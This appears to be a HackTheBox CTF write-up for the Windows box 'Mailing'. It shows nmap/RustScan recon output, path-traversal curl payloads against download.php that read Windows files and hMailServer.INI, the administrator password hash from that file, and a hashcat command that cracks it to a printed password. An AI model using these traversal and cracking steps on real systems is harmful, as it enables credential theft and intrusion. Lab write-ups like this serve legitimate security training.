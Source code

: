 ```yaml
---
layout: post
title:  Mailing
description: Mailing - EASY Windows Box - This box focuses on the abuse of a outlook CVE to gain the foothold followed up with Libre Office Exploitation to gain admin access to dump hashes for a local admin user for root.
date:   2024-08-30 07:00:00 -0400
image:  '/images/mailing01.jpg'
tags:   [HackTheBox, CTF, Easy, Season 5 Anomaliess, Windows]
---
```

<div class="heading-wrapper">
    <h1 class="heading" id="Recon">Reconnaissance:</h1>
    <i class="fa-solid fa-frog" style="color: #b8bb26;"></i> Rust Scan
    {% highlight Markdown %}
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
To scan or not to scan? That is the question.

[~] The config file is expected to be at "/home/froggiedrinks/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.39.59:25
Open 10.129.39.59:80
Open 10.129.39.59:110
Open 10.129.39.59:135
Open 10.129.39.59:143
Open 10.129.39.59:139
Open 10.129.39.59:465
Open 10.129.39.59:445
Open 10.129.39.59:587
Open 10.129.39.59:993
Open 10.129.39.59:5040
Open 10.129.39.59:5985
Open 10.129.39.59:7680
Open 10.129.39.59:47001
Open 10.129.39.59:49664
Open 10.129.39.59:49665
Open 10.129.39.59:49667
Open 10.129.39.59:49666
Open 10.129.39.59:49668
Open 10.129.39.59:55705
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} sC -sV -A" on ip 10.129.39.59
Depending on the complexity of the script, results may take some time to appear.
Failed to resolve "sC".
Failed to resolve "sC".
Failed to resolve "sC".
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-29 08:24 CDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:24
Completed NSE at 08:24, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:24
Completed NSE at 08:24, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:24
Completed NSE at 08:24, 0.00s elapsed
Initiating Ping Scan at 08:24
Scanning 10.129.39.59 [4 ports]
Completed Ping Scan at 08:24, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 08:24
Completed Parallel DNS resolution of 1 host. at 08:24, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 08:24
Scanning 10.129.39.59 [20 ports]
Discovered open port 80/tcp on 10.129.39.59
Discovered open port 993/tcp on 10.129.39.59
Discovered open port 135/tcp on 10.129.39.59
Discovered open port 139/tcp on 10.129.39.59
Discovered open port 587/tcp on 10.129.39.59
Discovered open port 7680/tcp on 10.129.39.59
Discovered open port 143/tcp on 10.129.39.59
Discovered open port 110/tcp on 10.129.39.59
Discovered open port 445/tcp on 10.129.39.59
Discovered open port 25/tcp on 10.129.39.59
Discovered open port 465/tcp on 10.129.39.59
Discovered open port 49664/tcp on 10.129.39.59
Discovered open port 47001/tcp on 10.129.39.59
Discovered open port 55705/tcp on 10.129.39.59
Discovered open port 5985/tcp on 10.129.39.59
Discovered open port 49666/tcp on 10.129.39.59
Discovered open port 49668/tcp on 10.129.39.59
Discovered open port 49665/tcp on 10.129.39.59
Discovered open port 5040/tcp on 10.129.39.59
Discovered open port 49667/tcp on 10.129.39.59
Completed SYN Stealth Scan at 08:24, 0.04s elapsed (20 total ports)
Initiating Service scan at 08:24
Scanning 20 services on 10.129.39.59
Completed Service scan at 08:27, 156.43s elapsed (20 services on 1 host)
Initiating OS detection (try #1) against 10.129.39.59
Retrying OS detection (try #2) against 10.129.39.59
Initiating Traceroute at 08:27
Completed Traceroute at 08:27, 0.02s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 08:27
Completed Parallel DNS resolution of 2 hosts. at 08:27, 0.00s elapsed
DNS resolution of 2 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.129.39.59.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:27
NSE Timing: About 99.96% done; ETC: 08:27 (0:00:00 remaining)
Completed NSE at 08:28, 40.09s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:28
Completed NSE at 08:28, 1.49s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:28
Completed NSE at 08:28, 0.00s elapsed
Nmap scan report for 10.129.39.59
Host is up, received echo-reply ttl 127 (0.0085s latency).
Scanned at 2024-08-29 08:24:45 CDT for 203s

PORT      STATE SERVICE       REASON          VERSION
25/tcp    open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://mailing.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3          syn-ack ttl 127 hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
143/tcp   open  imap          syn-ack ttl 127 hMailServer imapd
|_imap-capabilities: OK IMAP4rev1 ACL IDLE QUOTA NAMESPACE CHILDREN IMAP4 SORT completed CAPABILITY RIGHTS=texkA0001
445/tcp   open  microsoft-ds? syn-ack ttl 127
465/tcp   open  ssl/smtp      syn-ack ttl 127 hMailServer smtpd
--SNIP--
587/tcp   open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
--SNIP--
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap      syn-ack ttl 127 hMailServer imapd
--SNIP--
5040/tcp  open  unknown       syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?    syn-ack ttl 127
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55705/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 25942/tcp): CLEAN (Timeout)
|   Check 2 (port 53596/tcp): CLEAN (Timeout)
|   Check 3 (port 59027/udp): CLEAN (Timeout)
|   Check 4 (port 48605/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-08-29T13:27:31
|_  start_date: N/A
|_clock-skew: 0s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

    {% endhighlight %}
</div>

There is a lot of open ports on this box. Some noteworthy highlights are the following ports:
  # Ports
  <ul class="checklist">
    <li><i class="fa-solid fa-frog" style="color: #b8bb26;"></i> 25, 110, 143 - SMTP,IMAP and POP3. All mailing server ports. Appears to be some sort of mailing service setup on the box. We can see in our rust scan there is a service running. <code>hMailServer</code>.</li>
    <li><i class="fa-solid fa-frog" style="color: #b8bb26;"></i> 139, 445 - SMB Ports. There is SMB opened on this box.</li>
    <li><i class="fa-solid fa-frog" style="color: #b8bb26;"></i> 80 - There is a website running.</li>
  </ul>

# FFUFing:

I didnt discover much with fuzzing. Lets see if I can find anything with `Wapiti3`.

## Wapiti3:

Running `wapiti3` on our target we get an instant hit with `LFI` on the `/downloads` path.
<img src="/images/box-images/Mailing/Mailing_Wapiti3_LFI.png">

Curling down the path gives us proof that it indeed is vulnerable.

{%hightlight markdown%}
curl "http://mailing.htb/download.php?file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2FSystem32%2Fdrivers%2Fetc%2Fservices"
{%endhighlight%}

We know we have `hMailServer` installed so lets see if we can find anything in that folder with the `LFI`

## LFI:
{%highlight markdown%}
curl "http://mailing.htb/download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.INI"
{%endhighlight%}

Poking around we find a `.INI` file that contains setup information for the server.

{% highlight markdown %}
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
{% endhighlight %}

* Appears to be a md5 hash for a `AdministratorPassword`
	* `841bb5acfa6779ae432fd7a4e6600ba7`

* Save this hash to a file and run hashcat with `rockyou.txt` word list on it.
{%highlight markdown%} hashcat -m 0 hash /usr/share/wordlists/rockyou.txt {%endhighlight%}

* We successfully crack the hash with the password of:
	* `homenetworkingadministrator`

